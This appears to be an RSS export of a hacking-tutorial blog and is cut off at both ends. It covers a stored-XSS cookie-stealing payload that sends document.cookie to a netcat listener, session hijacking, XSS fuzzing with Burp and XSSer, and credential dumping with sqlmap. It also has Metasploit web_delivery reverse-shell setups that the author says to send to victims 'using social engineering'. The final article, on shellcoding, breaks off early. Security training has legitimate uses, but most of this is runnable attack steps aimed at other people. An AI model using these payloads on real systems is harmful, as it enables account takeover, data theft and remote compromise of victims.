<pre class="wp-block-preformatted">&lt;script&gt;new Image().src="http://192.168.0.9:4444?output="+document.cookie;&lt;/script&gt;</pre>


<figure class="wp-block-image"></figure>


<p>Now, on the other side, let’s set up our Netcat listener as with</p>


<pre class="wp-block-preformatted">nc –lvp 4444</pre>


<p><strong>Logout</strong>&nbsp;and&nbsp;<strong>login</strong>&nbsp;<strong>again&nbsp;</strong>as a new user or in some other browser, now if the user visits the&nbsp;<strong>XSS (Stored)&nbsp;</strong>page, his session cookies will thus get transferred to our listener</p>


<figure class="wp-block-image"></figure>


<p>Great!! From the below screenshot you can see that, we’ve successfully captured up the authenticated cookies.</p>


<figure class="wp-block-image"></figure>


<p>But what we could do with them?</p>


<p>Let’s try to get into his account. I’ve opened up DVWA again but this time, we won’t log in, rather I’ll get with the captured cookies. I’ve used the&nbsp;<strong>cookie</strong>&nbsp;<strong>editor</strong>&nbsp;plugin in order to manipulate up the session.</p>


<p>From the below screenshot, you can see that,&nbsp;<strong>I’ve changed the PHPSESID</strong>&nbsp;with the one I captured and had manipulated the&nbsp;<strong>security from impossible to low</strong>&nbsp;and even decreased the&nbsp;<strong>security _level from 1 to 0&nbsp;</strong>and have thus saved up these changes. Let’s even manipulate the URL by removing&nbsp;<strong>login.php</strong></p>


<figure class="wp-block-image"></figure>


<p>Great!! Now simply reloads the page, from the screenshot you can see are that we are into the application.</p>


<figure class="wp-block-image"></figure>


<p><strong>Exploitation with Burpsuite</strong></p>


<p>Stored XSS is hard to find, but over on the other hand, Reflected XSS is very common and thus can be exploited with some simple clicks.</p>


<p><em>But wait, up till now we were only exploiting the web-applications that were not validated by the developers, so what about the restricted ones?</em></p>


<p>Web applications with the input fields are somewhere or the other vulnerable to XSS, but we can’t exploit them with the bare hands, as they were secured up with some validations. Therefore in order to exploit such validated applications, we need some fuzzing tools and thus for the fuzzing thing, we can count on&nbsp;<strong>BurpSuite</strong>.</p>


<p>I’ve opened the target IP in my browser and login inside BWAPP as a&nbsp;<strong>bee: bug</strong>, further I’ve set the&nbsp;<strong>“Choose Your Bug”</strong>&nbsp;option to&nbsp;<strong>“</strong><em><strong>XSS –Reflected (Post)”&nbsp;</strong></em>and had fired up the&nbsp;<strong>hack button, and for this section, I’ve set the security to “medium”</strong></p>


<figure class="wp-block-image"></figure>


<p>From the below screenshot, you can see that when we tried to execute our payload as&nbsp;<strong>&lt;script&gt;alert(“hello”)&lt;/script&gt;,</strong>&nbsp;we hadn’t got our desired result.</p>


<figure class="wp-block-image"></figure>


<p>So, let’s capture its ongoing&nbsp;<strong>HTTP</strong>&nbsp;<strong>Request</strong>&nbsp;in our burpsuite and will further share the captured request over to the&nbsp;<strong>“Intruder”.</strong></p>


<figure class="wp-block-image"></figure>


<p>Over into the&nbsp;<strong>intruder,&nbsp;</strong>&nbsp;switch to the&nbsp;<strong>Position</strong>&nbsp;<strong>tab</strong>&nbsp;and we’ll configure the position to our input-value parameter as&nbsp;<strong>“firstname”</strong>&nbsp;with the&nbsp;<strong><em>Add $</em>&nbsp;</strong>button<strong>.</strong></p>


<figure class="wp-block-image"></figure>


<p>Time to include our payloads file. Click on the&nbsp;<strong>load</strong>&nbsp;button in order to add the dictionary<em>. You can even opt the burpsuite’s predefined XSS dictionary with a simple click on the&nbsp;<strong>“Add from list”&nbsp;</strong>button and selecting the&nbsp;<strong>Fuzzing-XSS</strong>.</em></p>


<p>As soon as we’re over with the configuration, we’ll fire up the&nbsp;<strong>“Start Attack”</strong>&nbsp;button.</p>


<figure class="wp-block-image"></figure>


<p>From the below image, you can see that our attack has been started and there is a fluctuation in the length section. In order to get the result in the descending order with respect to the length, I’ve double-clicked the length field.</p>


<figure class="wp-block-image"></figure>


<p>We’re almost done, let’s double click on any payload in order to check what it offers.</p>


<p>But wait!! We can’t see the XSS result over in the response tab as the browser can only render this malicious code, so in order to check its response let’s&nbsp;<strong>simply do a right-click</strong>&nbsp;and choose the option as&nbsp;<strong>“Show Response in browser”</strong></p>


<figure class="wp-block-image"></figure>


<p>Copy the offered URL and paste it in the browser. Great!! From the below image, you can see that we’ve successfully bypassed the application as we got the&nbsp;<strong>alert</strong>.</p>


<figure class="wp-block-image"></figure>


<p><strong>XSSer</strong></p>


<p><strong>C</strong>ross-<strong>S</strong>ite&nbsp;<strong>“S</strong>cripter<strong>”</strong>&nbsp;or an&nbsp;<strong>“XSSer”&nbsp;</strong>is an automatic framework, which detects&nbsp;<strong>XSS&nbsp;</strong>vulnerabilities over in the web-applications and even provides up several options to exploit them.</p>


<p>XSSer has more than&nbsp;<strong>1300</strong>&nbsp;pre-installed XSS fuzzing vectors which thus empowers the attacker to bypass certainly filtered web-applications and the WAF’s(Web –Application Firewalls).</p>


<p>So, let’s see how this fuzzer could help us in exploiting our bWAPP’s web-application. But in order to go ahead, we need to clone XSSer into our kali machine, so let’s do it with</p>


<pre class="wp-block-preformatted">git clone https://github.com/epsylon/xsser.git</pre>


<p>Now, boot back into your bWAPP, and set the&nbsp;<strong>“Choose your Bug”</strong>&nbsp;option to&nbsp;<strong>“</strong><em><strong>XSS –Reflected (Get)”&nbsp;</strong></em><em>&nbsp;and hit the&nbsp;<strong>hack&nbsp;</strong>button and for this time we’ll set the security level to&nbsp;<strong>“medium”.</strong></em></p>


<figure class="wp-block-image"></figure>


<p><em>XSSer offers us two platforms – the&nbsp;<strong>GUI&nbsp;</strong>and the&nbsp;<strong>Command-Line.&nbsp;</strong>Therefore, for this section, we’ll focus on the Command Line method.</em></p>


<p><em>As the&nbsp;<strong>XSS</strong>&nbsp;<strong>vulnerability</strong>&nbsp;is&nbsp;<strong>dependable</strong>&nbsp;on the&nbsp;<strong>input</strong>&nbsp;<strong>parameters</strong>, thus this&nbsp;<strong>XSSer&nbsp;</strong>works on “URL”; and even to get the precise result we need the cookies too. In order to grab both the things, I’ve made a dry run by setting up the&nbsp;<strong>firstname</strong>&nbsp;as&nbsp;<strong>“test”&nbsp;</strong>and the&nbsp;<strong>lastname&nbsp;</strong>as&nbsp;<strong>“test1”.</strong></em></p>


<figure class="wp-block-image"></figure>


<p>Now, let’s capture the&nbsp;<strong>browser’s request</strong>&nbsp;into our burpsuite, by simply enabling the proxy and the intercept options, further as we hit the&nbsp;<strong>Go&nbsp;</strong>button, we got the output as</p>


<figure class="wp-block-image"></figure>


<p>Fire up you Kali Terminal with&nbsp;<strong>XSSer&nbsp;</strong>and run the following command with the&nbsp;<strong>–url&nbsp;</strong>and the&nbsp;<strong>–cookie flags.&nbsp;</strong>Here I’ve even used an –auto flag which will thus check the URL with all the preloaded vectors. Over at the applied URL, we need to manipulate an input-parameter value to “XSS”, as in our case I’ve changed the “test” with “XSS”<strong>.</strong></p>


<pre class="wp-block-preformatted">python3 xsser --url "http://192.168.0.9/bWAPP/xss_get.php?firstname=XSS&amp;lastname=test1&amp;form=submit" --cookie "PHPSESSID=q6t1k21lah0ois25m0b4egps85; security_level=1" --auto</pre>


<figure class="wp-block-image"></figure>


<p>Oops!! From the below screenshot, you can see that this URL is vulnerable with 1287 vectors.</p>


<figure class="wp-block-image"></figure>


<p>The best thing about this fuzzer is that it provides up the browser’s URL. Select and execute anyone and there you go.</p>


<p><strong>Note</strong>:</p>


<p><em>It is not necessary that with every payload, you’ll get the alert pop-up, as every different payload is defined up with some specific event, whether it is setting up an iframe, capturing up some cookies, or redirection to some other website or something else.&nbsp;&nbsp;&nbsp;&nbsp;</em></p>


<p>Therefore, from the below screenshot, it is clear that we’ve successfully defaced this web-application<strong>.</strong></p>


<figure class="wp-block-image"></figure>


<p><strong>Mitigation Steps</strong></p>


<p>·&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Developers should implement a&nbsp;<strong>whitelist of allowable inputs</strong>, and if not possible then there should be some&nbsp;<strong>input</strong>&nbsp;<strong>validations</strong>&nbsp;and the data entered by the user must be filtered as much as possible.</p>


<p>·&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Output encoding is the most reliable solution to combat XSS i.e. it takes up the script code and thus converts it into the plain text.</p>


<p>·&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;A&nbsp;<strong>WAF&nbsp;</strong>or a&nbsp;<strong>W</strong>eb&nbsp;<strong>A</strong>pplication&nbsp;<strong>F</strong>irewall should be implemented as it somewhere protects the application from&nbsp;<strong>XSS attacks.</strong></p>


<p>·&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Use of&nbsp;<strong>HTTPOnly</strong>&nbsp;<strong>Flags</strong>&nbsp;on the Cookies.</p>


<p>·&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;The developers can use&nbsp;<strong>C</strong>ontent&nbsp;<strong>S</strong>ecurity&nbsp;<strong>P</strong>olicy&nbsp;<strong>(CSP)</strong>&nbsp;to reduce the severity of any XSS vulnerabilities</p>
]]></content:encoded>
					
		
		
			</item>
		<item>
		<title>Database Penetration Testing using Sqlmap</title>
		<link>../../../2024/12/27/database-penetration-testing-using-sqlmap/index.html</link>
		
		<dc:creator><![CDATA[]]></dc:creator>
		<pubDate>Fri, 27 Dec 2024 17:39:20 +0000</pubDate>
				<category><![CDATA[SQL, Botnets and XSS Attacks Tools and Resources]]></category>
		<guid isPermaLink="false">../../../index.html?p=9035</guid>

					<description><![CDATA[sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful....]]></description>
										<content:encoded><![CDATA[
<p>sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections.</p>


<p><strong>Features</strong></p>


<ul class="wp-block-list">
<li>Full support for MySQL, Oracle, PostgreSQL, Microsoft SQL Server, Microsoft Access, IBM DB2, SQLite, Firebird, Sybase, SAP MaxDB, HSQLDB and Informix database management systems.</li>


<li>Full support for six SQL injection techniques: boolean-based blind, time-based blind, error-based, UNION query-based, stacked queries and out-of-band.</li>


<li>Support to directly connect to the database without passing via a SQL injection, by providing DBMS credentials, IP address, port, and database name.</li>


<li>Support to enumerate users, password hashes, privileges, roles, databases, tables, and columns.</li>


<li>Automatic recognition of password hash formats and support for cracking them using a dictionary-based attack.</li>


<li>Support to dump database tables entirely, a range of entries or specific columns as per user’s choice. The user can also choose to dump only a range of characters from each column’s entry.</li>


<li>Support to search for specific database names, specific tables across all databases or specific columns across all databases’ tables. This is useful, for instance, to identify tables containing custom application credentials where relevant columns’ names contain a string like a name and pass.</li>


<li>Support to download and upload any file from the database server underlying file system when the database software is MySQL, PostgreSQL or Microsoft SQL Server.</li>


<li>Support to execute arbitrary commands and retrieve their standard output on the database server underlying operating system when the database software is MySQL, PostgreSQL or Microsoft SQL Server.</li>


<li>Support to establish an out-of-band stateful TCP connection between the attacker machine and the database server underlying operating system. This channel can be an interactive command prompt, a Meterpreter session or a graphical user interface (VNC) session as per user’s choice.</li>


<li>Support for database process’ user privilege escalation via Metasploit’sMeterpreter getsystem command.</li>
</ul>


<figure class="wp-block-image"></figure>


<p>These options can be used to enumerate the back-end database management system information, structure, and data contained in the tables.</p>


<figure class="wp-block-image"></figure>


<p>Sometimes you visit such websites that let you select product item through their picture gallery if you observer its URL you will notice that product item is called through its product-ID numbers.</p>


<p>Let’s take an example</p>


<pre class="wp-block-preformatted">http://testphp.vulnweb.com/artists.php?artist=1</pre>


<p>So when attacker visits such kind of website he always checks for SQL vulnerability inside web server for lunching SQL attack.</p>


<figure class="wp-block-image"></figure>


<p>Let’s check how attacker verifies SQL vulnerability.</p>


<p>The attacker will try to break the query in order to order to get the error message, if he successfully received an error message then it confirms that web server is SQL injection affected.</p>


<pre class="wp-block-preformatted">http://testphp.vulnweb.com/artists.php?artist=1'
</pre>


<p><strong>&nbsp;</strong>From the screenshot you can see we have received error message successfully now we have made SQL attack on a web server so that we can fetch database information.</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading"><strong>Databases</strong></h3>


<p><strong>&nbsp;</strong>For database penetration testing we always choose SQLMAP, this tool is very helpful for beginners who are unable to retrieve database information manually or unaware of SQL injection techniques.</p>


<p>Open the terminal in your Kali Linux and type following command which start SQL injection attack on the targeted website. &nbsp;</p>


<pre class="wp-block-preformatted">sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --dbs --batch</pre>


<p><strong>&nbsp;</strong><strong>-u:&nbsp;&nbsp;</strong>target URL</p>


<p><strong>–dbs:&nbsp;</strong>fetch database name</p>


<p><strong>–batch:</strong>&nbsp;This will leave sqlmap to go with default behavior whenever user’s input would be required</p>


<figure class="wp-block-image"></figure>


<p>Here from the given screenshot, you can see we have successfully retrieve database name “<strong>acuart</strong>”</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading"><strong>Tables</strong></h3>


<p>As we know a database is a set of record which consist of multiple tables inside it therefore now use another command in order to fetch entire table names from inside the database system.</p>


<pre class="wp-block-preformatted">sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart --table --batch
</pre>


<p><strong>&nbsp;</strong><strong>-D:&nbsp;</strong>DBMS database to enumerate (fetched database name)</p>


<p><strong>–tables:&nbsp;</strong>enumerate DBMS database table</p>


<figure class="wp-block-image"></figure>


<p>As a result, given in screenshot, we have enumerated entire table name of the database system. There are 8 tables inside the database “acuart” as following:</p>


<p><strong>T1: artists</strong></p>


<p><strong>T2: carts</strong></p>


<p><strong>T3: categ</strong></p>


<p><strong>T4: featured</strong></p>


<p><strong>T5: guestbook</strong></p>


<p><strong>T6: pictures</strong></p>


<p><strong>T7: products</strong></p>


<p><strong>T8: users</strong></p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading"><strong>Columns</strong></h3>


<p>Now further we will try to enumerate the column name of the desired table. Since we know there is a users table inside the database acuart and we want to know all column names of users table, therefore, we will generate another command for column captions enumeration.</p>


<pre class="wp-block-preformatted">sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users --columns --batch
</pre>


<p><strong>-T:&nbsp;</strong>DBMS table to enumerate (fetched table name)</p>


<p><strong>–columns:</strong>&nbsp;enumerate DBMS database columns</p>


<figure class="wp-block-image"></figure>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading"><strong>Get data from a table</strong></h3>


<p>Slowly and gradually we have penetrated many details of the database but last and most important step is to retrieve information from inside the columns of a table. Hence, at last, we will generate a command which will dump information of users table.</p>


<pre class="wp-block-preformatted">sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users --dump --batch
</pre>


<p><strong>–dump:</strong>&nbsp;dump all information of DBMS database</p>


<figure class="wp-block-image"></figure>


<p>Here from the given screenshot, you can see it has to dump entire information of table users, mainly users table contains login credential of other users. You can use these credential for login into the server on behalf of other users.</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading"><strong>Dump All</strong></h3>


<p>The last command is the most powerful command in sqlmap which will save your time in database penetration testing; this command will perform all the above functions at once and dump entire database information including table names, column and etc.</p>


<pre class="wp-block-preformatted">sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart --dump-all --batch</pre>


<figure class="wp-block-image"></figure>


<p>This will give you all information at once which contains database name as well as table’s records.</p>


<p>Try it yourself!!!</p>


<figure class="wp-block-image"></figure>
]]></content:encoded>
					
		
		
			</item>
		<item>
		<title>Command Injection Exploitation using Web Delivery (Linux, Windows).</title>
		<link>../../../2024/12/27/command-injection-exploitation-using-web-delivery-linux-windows/index.html</link>
		
		<dc:creator><![CDATA[]]></dc:creator>
		<pubDate>Fri, 27 Dec 2024 17:26:55 +0000</pubDate>
				<category><![CDATA[Ethical Hacking With Kali Linux]]></category>
		<guid isPermaLink="false">../../../index.html?p=9024</guid>

					<description><![CDATA[Requirement Attacker: Kali Linux Targeted Platform: Window,PHP,Linux [ubuntu] Open the terminal in your Kali Linux and type “msfconsole” to load Metasploit framework and execute given below exploit. This module quickly....]]></description>
										<content:encoded><![CDATA[
<p><strong>Requirement</strong></p>


<p><strong>Attacker</strong>: Kali Linux</p>


<p><strong>Targeted Platform</strong>: Window,PHP,Linux [ubuntu]</p>


<p>Open the terminal in your Kali Linux and type “<strong>msfconsole</strong>” to load Metasploit framework and execute given below exploit.</p>


<p>This module quickly fires up a web server that serves a payload. The provided command which will allow for a payload to download and execute. It will do it either specified scripting language interpreter or “squiblydoo” via regsvr32.exe for bypassing application whitelisting. The main purpose of this module is to quickly establish a session on a target machine when the attacker has to manually type in the command: e.g. Command Injection, RDP Session, Local Access or maybe Remote Command Execution. This attack vector does not write to disk so it is less likely to trigger AV solutions and will allow privilege escalations supplied by Meterpreter. When using either of the PSH targets, ensure the payload architecture matches the target computer or use SYSWOW64 powershell.exe to execute x86 payloads on x64 machines. Regsvr32 uses “squiblydoo” technique for bypassing application whitelisting. The signed Microsoft binary file, Regsvr32, is able to request an .sct file and then execute the included PowerShell command inside of it. Both web requests (i.e., the .sct file and PowerShell download/execute) can occur on the same port. “PSH (Binary)” will write a file to the disk, allowing for custom binaries to be served up to be downloaded/executed.</p>


<pre class="wp-block-preformatted">use exploit/multi/script/web_delivery
msf exploit&nbsp;(web_delivery)&gt;show targets</pre>


<p>From given below image you can observe that there are 5 targets, which help you in generating malicious code to create a backdoor in the victim system.</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading"><strong>Exploit Linux Platform [python]</strong></h3>


<pre class="wp-block-preformatted">use exploit/multi/script/web_delivery
msf exploit&nbsp;(web_delivery)&gt;set lhost 192.168.1.132
msf exploit&nbsp;(web_delivery)&gt;set lport 4444
msf exploit&nbsp;(web_delivery)&gt;set&nbsp;target 0
msf exploit&nbsp;(web_delivery)&gt;set payload python/meterpreter/reverse_tcp
msf exploit&nbsp;(web_delivery)&gt;run</pre>


<p>In this exploit we had set target 0 to generate malicious code for python platform, from given below image you can observe the highlighted&nbsp;<strong>malicious python code</strong>, now copy it and send to the victim using social engineering method.</p>


<p>As soon as the victim will execute the malicious code in terminal, the attacker will obtain meterpreter session as unauthorized access of the victim system.</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading"><strong>Exploit Linux Platform [PHP]</strong></h3>


<pre class="wp-block-preformatted">use exploit/multi/script/web_delivery
msf exploit&nbsp;(web_delivery)&gt;set lhost 192.168.1.132
msf exploit&nbsp;(web_delivery)&gt;set lport 4444
msf exploit&nbsp;(web_delivery)&gt;set&nbsp;target 1
msf exploit&nbsp;(web_delivery)&gt;set payload php/meterpreter/reverse_tcp
msf exploit&nbsp;(web_delivery)&gt;run</pre>


<p>Now we had set target 1 to generate malicious code for php platform, from given below image you can observe the highlighted&nbsp;<strong>malicious php code</strong>, now copy it and send to the victim using social engineering method.</p>


<p>As soon as the victim will execute the malicious code in a web browser, the attacker will obtain another meterpreter session as unauthorized access of the victim system.</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading"><strong>Exploit Windows Platform [exe]</strong></h3>


<pre class="wp-block-preformatted">use exploit/multi/script/web_delivery
msf exploit&nbsp;(web_delivery)&gt;set lhost 192.168.1.132
msf exploit&nbsp;(web_delivery)&gt;set lport 4444
msf exploit&nbsp;(web_delivery)&gt;set&nbsp;target 2
msf exploit&nbsp;(web_delivery)&gt;set payload windows/meterpreter/reverse_tcp
msf exploit&nbsp;(web_delivery)&gt;run</pre>


<p>Further, we had set target 2 to generate malicious code for window platform, from given below image you can observe the highlighted&nbsp;<strong>malicious powershell.exe</strong>, now copy it and send to the victim using social engineering method.</p>


<p>As soon as the victim will execute the malicious code in command prompt, the attacker will obtain a meterpreter session as unauthorized access of the victim system.</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading"><strong>Exploit Windows Platform [DLL]</strong></h3>


<pre class="wp-block-preformatted">use exploit/multi/script/web_delivery
msf exploit&nbsp;(web_delivery)&gt;set lhost 192.168.1.132
msf exploit&nbsp;(web_delivery)&gt;set lport 4444
msf exploit&nbsp;(web_delivery)&gt;set&nbsp;target 3
msf exploit&nbsp;(web_delivery)&gt;set payload windows/meterpreter/reverse_tcp
msf exploit&nbsp;(web_delivery)&gt;run</pre>


<p>In this exploit we had set target 3 to generate malicious code for window platform, from given below image you can observe the highlighted&nbsp;<strong>malicious dll code</strong>, now copy it and send to the victim using social engineering method.</p>


<p>As soon as the victim will execute the malicious code as run command inside the RUN window, the attacker will again obtain meterpreter session and make unauthorized access in the victim system.</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading"><strong>Exploit Windows Platform [Powershell Binary]</strong></h3>


<pre class="wp-block-preformatted">use exploit/multi/script/web_delivery
msf exploit&nbsp;(web_delivery)&gt;set lhost 192.168.1.132
msf exploit&nbsp;(web_delivery)&gt;set lport 4444
msf exploit&nbsp;(web_delivery)&gt;set&nbsp;target 4
msf exploit&nbsp;(web_delivery)&gt;set payload windows/meterpreter/reverse_tcp
msf exploit&nbsp;(web_delivery)&gt;run</pre>


<p>In this exploit we had set target 4 to generate malicious code for windows platform, from given below image you can observe the highlighted malicious&nbsp;<strong>powershell.exe binary code</strong>, now copy it and send to the victim using social engineering method.</p>


<p>As soon as the victim will execute the malicious code in command prompt, the attacker will obtain a meterpreter session as unauthorized access of the victim system.</p>


<p>Hence a single exploit “web delivery script” is quite helpful to hack three different platforms.</p>


<figure class="wp-block-image"></figure>
]]></content:encoded>
					
		
		
			</item>
		<item>
		<title>How to set up SQLI Lab</title>
		<link>../../../2024/12/27/how-to-set-up-sqli-lab/index.html</link>
		
		<dc:creator><![CDATA[]]></dc:creator>
		<pubDate>Fri, 27 Dec 2024 17:23:16 +0000</pubDate>
				<category><![CDATA[Ethical Hacking With Kali Linux]]></category>
		<guid isPermaLink="false">../../../index.html?p=9014</guid>

					<description><![CDATA[Let us learn how to setup Dhakkan lab (one of the best labs I have seen for practicing and understanding SQL INJECTION) in our latest Ubuntu Machine. A&#160;laboratory&#160;that&#160;offers&#160;a&#160;complete&#160;test&#160;environment&#160;for&#160;those&#160;interested&#160;in&#160;acquiring&#160;or&#160;improving&#160;SQL&#160;injection&#160;skills.&#160;Let’s start. First,....]]></description>
										<content:encoded><![CDATA[
<p>Let us learn how to setup Dhakkan lab (one of the best labs I have seen for practicing and understanding SQL INJECTION) in our latest Ubuntu Machine.</p>


<p>A&nbsp;laboratory&nbsp;that&nbsp;offers&nbsp;a&nbsp;complete&nbsp;test&nbsp;environment&nbsp;for&nbsp;those&nbsp;interested&nbsp;in&nbsp;acquiring&nbsp;or&nbsp;improving&nbsp;SQL&nbsp;injection&nbsp;skills.&nbsp;Let’s start. First, we will download SQLI lab inside html directory by the following link-</p>


<pre class="wp-block-preformatted">git clone http://github.com/Rinkish/Sqli_Edited_Version</pre>


<p>Once the download is done, we will move sqli labs into the /var/www/html directory and rename it to sqli. Then go inside the sqli directory where we will find&nbsp;<strong>/sqli-connections</strong>&nbsp;directory. Here we will run ls command to check the files and we can see that here is a file by the name of db-creds.inc</p>


<p>we need to make some changes in the config file by the following command-</p>


<pre class="wp-block-preformatted">cd Sqli_Edited_Version/
ls
mv sqlilabs/ ../sqli
cd sqli
cd sql-connections/
ls
nano db-creds.inc</pre>


<figure class="wp-block-image"></figure>


<p>As we can see that username is given root and password is left blank which we need to modify.</p>


<figure class="wp-block-image"></figure>


<p>Now here we will set the username and password as&nbsp;<strong>raj:123</strong>&nbsp;Now save the file and exit.</p>


<figure class="wp-block-image"></figure>


<p>Now browse this web application from through this URL<em>:&nbsp;</em><strong>localhost/sqli</strong>&nbsp;and click on&nbsp;<strong>Setup/reset</strong>&nbsp;Databases for labs.</p>


<figure class="wp-block-image"></figure>


<p>Now the sqli lab is ready to use.</p>


<figure class="wp-block-image"></figure>


<p>Now a page will open up in your browser which is an indication that we can access different kinds of Sqli challenges</p>


<figure class="wp-block-image"></figure>


<p>Click on lesson 1 and start the Sqli challenge.</p>


<figure class="wp-block-image"></figure>
]]></content:encoded>
					
		
		
			</item>
		<item>
		<title>64-bit Linux Assembly and Shellcoding</title>
		<link>../../../2024/12/10/64-bit-linux-assembly-and-shellcoding/index.html</link>
		
		<dc:creator><![CDATA[]]></dc:creator>
		<pubDate>Tue, 10 Dec 2024 17:26:36 +0000</pubDate>
				<category><![CDATA[Ethical Hacking With Kali Linux]]></category>
		<category><![CDATA[Ethical Hacking, Botnets, MAC Flooding, ARP Attacks, DDos, Sniffing & Penetration Testing.]]></category>
		<guid isPermaLink="false">../../../index.html?p=8982</guid>

					<description><![CDATA[Introduction Shellcodes are machine instructions that are used as a payload in the exploitation of a vulnerability. An exploit is a small code that targets a vulnerability. Shellcodes are written....]]></description>
										<content:encoded><![CDATA[
<h3 class="wp-block-heading">Introduction</h3>


<p>Shellcodes are machine instructions that are used as a payload in the exploitation of a vulnerability. An exploit is a small code that targets a vulnerability. Shellcodes are written in assembly. We generally refer to sites like&nbsp;<a href="http://shell-storm.org/">shell-storm.org</a>&nbsp;to get shellcodes and attach them to our exploits. But how can we make our shellcodes?</p>


<p>This series of articles focuses on creating our shellcodes. In Part 1, we’d be understanding basic assembly instructions, writing our very first assembly code, and turning that into a shell code.</p>


<h3 class="wp-block-heading">Table of Content</h3>


<ul class="wp-block-list">
<li>Understanding CPU Registers</li>


<li>First Assembly Program</li>


<li>Assembling and Linking</li>


<li>Extracting Shellcode</li>


<li>Removing NULLs</li>


<li>A sample shellcode execution</li>


<li>Conclusion</li>
</ul>


<h3 class="wp-block-heading">Understanding CPU registers</h3>


<p>“Assembly is the language of OS.” We have all read this in our computer science textbooks in high school. But how is assembly written? How is the assembly language able to control our CPU? How do we make our assembly program?</p>


<p>Before going into assembly, let’s understand our CPU registers. An x86-64 CPU has various 8-byte (64-bit) registers that can be used to store data, do computation, and other tasks. These registers are physical and embedded in the chip. They are lightning-fast and exponentially faster than the hard disk memory. If we can write a program only using registers, the time required to run it would virtually be instantaneous.</p>


<p>A CPU contains a Control Unit, Execution Unit among other things. This execution unit talks to Registers and Flags.</p>


<figure class="wp-block-image"></figure>


<p>There are many registers on the CPU. But for this part, we only need to know about the general-purpose registers.</p>


<figure class="wp-block-image"></figure>


<p>64-bit registers</p>


<p>(ref: researchgate.net)</p>


<p>So, in the image above we can see that there are legacy 8 registers (RAX, RBX, RCX, RDX, RDI, RSI, RBP, RSP) and then R8 to R15. These are the general-purpose registers. CPU may also have others like MMX which we’ll encounter later on.</p>


<p>Out of these, these 4 data registers are:</p>


<p>RAX – Accumulator. Used for input/output and most arithmetic operations.</p>


<p>RBX – Base Register. Used for stack’s index addressing</p>


<p>RCX – Count Register. Used for counting, like a loop counter.</p>


<p>RDX – Data register. Used in I/O operations along with RAX for multiply/divide involving large values.</p>


<p>Again, this is just the given function. We can modify and use these registers in other ways we like.</p>


<p>Next, 3 pointer registers are:</p>


<p>RIP – Instruction Pointer. Stores the offset of the next instruction to be executed.</p>


<p>RSP – Stack Pointer. Stores the memory address of the top of the stack.</p>


<p>RBP – Base Pointer. Makes the base of the stack frame for the current function. This makes it easier to access function parameters and local variables at fixed offsets from the RBP register. eg: RBP-4 would store the first integer variable defined in the program.</p>


<p>Finally, there are 2 Index registers:</p>


<p>RSI – Source Index. It is used as as source index for string operations mainly.</p>


<p>RDI – Destination Index. It is used as a destination index for string operations mainly.</p>


<p>Apart from these we have some control registers as well, known as flags. These flags hold values 0 and 1 for set and unset. Some of these are:</p>


<p>CF – Carry Flag. Used for carry and borrow in mathematical operations.</p>


<p>PF – Parity Flag. Used for errors while processing arithmeetic operations. If number of “1” bits are even then PF=0 else it is set as 1.</p>


<p>ZF – Zero Flag. Used to indicate the result of a previous operation. This would be used as the input&nbsp; of other operations like JZ,JNZ etc.</p>


<p>Now we are ready to write our first program in assembly.</p>


<h3 class="wp-block-heading">First Assembly Program</h3>


<p>An assembly program is written with usually 3 main sections:</p>


<ol class="wp-block-list">
<li>Text section – Program instructions are stored here</li>


<li>Data section – Defined data is stored here</li>


<li>BSS section – Undefined data is stored here.</li>
</ol>


<p>It is also to note that there are 2 main assembly flavors in Linux 64-bit Assembly: AT&amp;T syntax and Intel syntax.</p>


<p>If you have used GDB before, you’ll notice it automatically displays the assembly in AT&amp;T syntax. This is a personal preference. Some people like seeing their assembly in this, but we would be using the Intel syntax because it seems a lot clearer.</p>


<p>Let’s write our first “Hello World” program.</p>


<p>We always start by defining our skeleton code. I’ll create a file with the extension “.asm”</p>


<figure class="wp-block-image"></figure>


<p>We always start by defining a global directive. Since, unlike C, we don’t have a main function here to tell the compiler where a program starts from, in assembly, we use the symbol “_start” to define the start of the program. In section .text, we define the _start label to tell the assembler to start instructions from this point.</p>


<p>For full details about global directives, refer to this&nbsp;<a href="https://www.nasm.us/xdoc/2.11.08/html/nasmdoc6.html">post</a>.</p>


<p>Now, we have to define a message “Hello World.” Since this is a piece of data, it must come in .data section</p>


<figure class="wp-block-image"></figure>


<p>This is how variables are declared:</p>


<p>&lt;variable&gt;: &lt;data type&gt; &lt;value&gt;</p>


<p>The name of the variable is “message”. It is defined as a sequence of bytes (db=define bytes) and ends with an end line (0xa is the hex value for “\n”).</p>


<p>For full details about data types in assembly, refer to this&nbsp;<a href="https://www.tutorialspoint.com/assembly_programming/assembly_variables.htm">post</a>.</p>


<p>Now that we have declared a message, we need instructions to print it.</p>


<p>It is important to know that assembly also uses the underlying system calls in an OS. In Linux OS, there are currently 456 system calls which are defined in /usr/include/x86-64-linux-gnu/unistd_64.h</p>


